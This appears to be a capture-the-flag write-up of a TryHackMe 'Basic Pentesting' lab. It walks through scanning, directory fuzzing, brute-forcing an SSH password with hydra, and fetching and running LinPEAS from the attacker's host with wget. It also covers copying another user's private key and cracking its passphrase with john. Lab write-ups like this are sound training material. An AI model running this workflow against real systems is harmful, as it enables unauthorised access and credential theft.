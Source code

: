 # Basic Pentesting - Try Hack Me


```
Hello
```


Target: 10.10.162.125


The first thing I did is to scan the ip address. Let us run an Nmap scan on the target 10.10.162.125
###### nmap scan
```
$ sudo nmap -sC -sV 10.10.162.125
```
There are multiple open ports but the port 22 is what caught my eye. Port 22 or SSH is often used to login and perform operations on computers.
Result:



![src:index](basicpentesting_1.png)


Web Page Results:

![src:index](basicpentesting_20.PNG)  



I inspected the source code of the webpage to find interesting information 

Source Code:


![src:index](basicpentesting_21.PNG)


I used ffuf with small.txt file to try to bruteforce for the directories.
###### search for directories
```
$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.10.159.226/FUZZ -fw 22
```

After minutes of bruteforcing I got the development directory

Fuff Results:


![src:index](basicpentesting_2.png)


Now let us take a look at the development page.

![src:index](basicpentesting_23.PNG)

dev.txt

![src:index](basicpentesting_24.PNG)

j.txt

![src:index](basicpentesting_25.PNG)

According to the note, I have found out that J has a weak credentials and that his/her password hash can be cracked easily.

I tried to gather more interesting information and used enum4linux.

###### simple enumeration using enum4linux
```
$ enum4linux -a 10.10.159.226
```
![src:index](basicpentesting_3.png)

I found 2 users: jay and kay

![src:index](basicpentesting_4.png)

Now that I know the user name, I will try to bruteforce the password of user jan using Hydra


###### bruteforcing password for user jan using hydra

```                                           
$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.162.125 -V
```
![src:index](basicpentesting_5.png)

After minutes of waiting, we successfully retrieved the password of user jan using the password list rockyou.txt
user:jan password:armando


![src:index](basicpentesting_6.png)

Let's login to user jan through ssh

###### login to user through ssh
```
$ ssh jan@10.10.162.125
```

###### host a server to download LinPEAS on the machine
```
$ python -m http.server 8001
```
![src:index](basicpentesting_7.png)

###### change directory to /dev/shm/ for us to be able to write
```
jan@basic2:~$ cd /dev/shm/
```

###### download LinPEAS
```
jan@basic2:/dev/shm$ wget http://10.18.69.128:8001/linpeas.sh 
```
![src:index](basicpentesting_8.png)


###### make LinPEAS executable by running the command:
```
jan@basic2:/dev/shm$ chmod +x linpeas.sh
```

###### run LinPEAS 
```
jan@basic2:/dev/shm$ ./linpeas.sh
```
![src:index](basicpentesting_10.png)

###### found possible private SSH keys 

![src:index](basicpentesting_11.png)

###### /home/kay/ .ssh/id_rsa


###### change directory to /home/kay
```
jan@basic2:/dev/shm$ cd /home/kay
```

###### list files
```
jan@basic2:/home/kay$ ls
```

###### found pass.bak
![src:index](basicpentesting_12.png)
###### list permission of the files and directories / hidden files
```
jan@basic2:/home/kay$ ls -la
```
![src:index](basicpentesting_13.png)

###### change directory to .ssh/
```
jan@basic2:/home/kay$ cd .ssh/
```

###### list files
```
jan@basic2:/home/kay/.ssh$ ls
```

###### found id_rsa

![src:index](basicpentesting_14.png)

###### cat id_rsa
```
jan@basic2:/home/kay/.ssh$ cat id_rsa
```
![src:index](basicpentesting_15.png)
###### save ssh key
```
$ mousepad kay_id_rsa
```


###### run the ssh2john script, and write the results of it into a file:
```
ssh2john kay_id_rsa > kay_hash
```

###### crack ssh private key with john the ripper
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash
```
![src:index](basicpentesting_16.png)

###### chmod 
```
$ chmod 600 kay_id_rsa
```
![src:index](basicpentesting_17.png)

###### ssh to user kay using the passphrase
```
ssh -i kay_id_rsa kay@10.10.162.125
```
![src:index](basicpentesting_18.png)
###### list down files
```
kay@basic2:~$ ls
```

###### print pass.bak
```
kay@basic2:~$ cat pass.bak
```
![src:index](basicpentesting_19.png)












